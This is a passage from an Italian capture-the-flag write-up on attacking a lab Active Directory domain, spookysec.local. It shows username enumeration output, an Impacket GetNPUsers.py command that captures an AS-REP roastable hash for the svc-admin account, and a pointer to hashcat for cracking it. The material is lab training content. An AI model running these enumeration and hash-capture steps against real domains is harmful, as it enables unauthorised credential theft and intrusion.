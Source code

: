 Version: v1.0.3 (9dad6e1) - 11/21/21 - Ronnie Flathers @ropnop  
  
2021/11/21 17:02:38 >  Using KDC(s):  
2021/11/21 17:02:38 >   spookysec.local:88  
  
         
2021/11/21 17:04:54 >  \[+\] VALID USERNAME:       james@spookysec.local  
2021/11/21 17:04:54 >  \[+\] VALID USERNAME:       svc-admin@spookysec.local  
2021/11/21 17:04:55 >  \[+\] VALID USERNAME:       James@spookysec.local  
2021/11/21 17:04:56 >  \[+\] VALID USERNAME:       robin@spookysec.local  
2021/11/21 17:04:59 >  \[+\] VALID USERNAME:       darkstar@spookysec.local  
2021/11/21 17:05:01 >  \[+\] VALID USERNAME:       administrator@spookysec.local  
2021/11/21 17:05:05 >  \[+\] VALID USERNAME:       backup@spookysec.local  
2021/11/21 17:05:06 >  \[+\] VALID USERNAME:       paradox@spookysec.local  
2021/11/21 17:05:19 >  \[+\] VALID USERNAME:       JAMES@spookysec.local  
2021/11/21 17:05:23 >  \[+\] VALID USERNAME:       Robin@spookysec.local  
2021/11/21 17:05:47 >  \[+\] VALID USERNAME:       Administrator@spookysec.local

Exploitation

Ho preso gli utenti significativi ottenuti dallo step precedente e li ho messi nel file users.txt

Per vedere se possono ottenere un ticket di autenticazione senza password

Impacket GetNPUsers.py
======================

python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -no-pass -usersfile users.txt                                                        2 ⨯  
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation  
  
\[-\] User james@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:e45af415c0823250b3183d60bee59c73$e18a9194bb65770f4a6595a91aa1cd34d8d3e46b85a14a26b2c0d13b91289815ef  
a858da15925713412a92d97035237685c3465afa0d75b289605d583908878c4c8c6cddba9af165cb618c4ac6cda92bb059ab17f36f0311335bfc980eb8a23dc3e3ca7116adb81676fd0e1d44321  
10781c434ab7658b60ff3803fe7c536dec2b46ac113802d5da48ae9856967e7316f67670a1ef73e84fb714cafe6e03d3fcc2727ef9606b9cede0beec7cbc9dfceb1e04ffe0ba72737f23eeed1fd  
86ab2af795b56ccb1a9964cd63d01d7f4524ed76dc844f264036a29b064b5a3136d4906f87d204edec8c70d3073a59ccf0ae9a5fd410  
\[-\] User James@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User robin@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User darkstar@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User administrator@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User backup@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User paradox@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User JAMES@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User Robin@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User Administrator@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  

Hashcat
=======

Cercare negli esempi la tipologia di hash da qui [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://www.google.com/url?q=https://hashcat.net/wiki/doku.php?id%3Dexample_hashes&sa=D&source=editors&ust=1731856544158998&usg=AOvVaw0_ZYeKmcsV9ICVzunL3BYm)
